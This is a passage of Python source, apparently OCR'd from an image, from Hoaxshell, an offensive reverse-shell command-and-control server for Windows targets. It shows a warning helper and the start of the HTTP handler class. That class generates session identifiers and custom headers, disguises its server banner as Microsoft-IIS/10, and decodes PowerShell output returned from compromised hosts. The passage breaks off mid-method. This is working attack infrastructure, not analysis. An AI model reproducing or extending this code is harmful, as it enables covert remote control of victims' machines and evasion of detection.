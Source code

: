 		return len(stack) > 0


	@staticmethod
	def ends_with_backslash(cmd):
		return True if cmd.endswith('\\') else False


	@staticmethod
	def print_warning():
		print(f'[{WARN}] Dangerous input detected. This command may break the shell session. If you want to execute it anyway, disable the Session Defender by running "cmdinspector".')
		rst_prompt(prompt = prompt)


# -------------- Hoaxshell Server -------------- #
class Hoaxshell(BaseHTTPRequestHandler):

	restored = False
	rst_promt_required = False
	prompt_ready = True
	command_pool = []
	execution_verified = False
	last_received = ''
	verify = str(uuid.uuid4())[0:8]
	get_cmd = str(uuid.uuid4())[0:8]
	post_res = str(uuid.uuid4())[0:8]
	hid = str(uuid.uuid4()).split("-")
	header_id = f'X-{hid[0][0:4]}-{hid[1]}' if not args.Header else args.Header
	SESSIONID = '-'.join([verify, get_cmd, post_res])
	server_version = 'Microsoft-IIS/10' if not args.server_version else args.server_version
	init_dir = None
	
	
	def cmd_output_interpreter(self, output, constraint_mode = False):
		
		global prompt
		
		try:
			
			if constraint_mode:
				output = output.decode('utf-8', 'ignore')
				
			else:
				bin_output = output.decode('utf-8').split(' ')
				to_b_numbers = [ int(n) for n in bin_output ]
				b_array = bytearray(to_b_numbers)
				output = b_array.decode('utf-8', 'ignore')
				
			tmp = output.rsplit("Path", 1)
			output = tmp[0]
			junk = True if re.search("Provider     : Microsoft.PowerShell.Core", output) else False
			output = output.rsplit("Drive", 1)[0] if junk else output
			
			if Hoaxshell.init_dir == None:
				p = tmp[-1].strip().rsplit("\n")[-1]
				p = p.replace(":", "", 1).strip() if p.count(":") > 1 else p
				Hoaxshell.init_dir = p
										